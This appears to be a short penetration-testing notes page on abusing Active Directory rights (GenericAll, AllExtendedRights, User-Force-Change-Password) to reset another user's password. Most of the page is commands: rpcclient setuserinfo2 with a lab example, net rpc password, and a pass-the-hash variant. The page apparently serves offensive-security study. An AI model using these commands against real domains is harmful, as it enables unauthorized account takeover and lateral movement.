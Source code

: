 # ForcePasswordChange

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.

{% embed url="https://www.thehacker.recipes/a-d/movement/dacl/forcechangepassword" %}

### Bloodhound Analysis

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Commands

{% code overflow="wrap" %}
```bash
# rpcclient 
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword

Kali> rpcclient -U lab.trusted.vl/rsmith labdc.lab.trusted.vl
rpcclient $> setuserinfo2 ewalters 23 Password0-


# With net and cleartext credentials (will be prompted)
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```
{% endcode %}
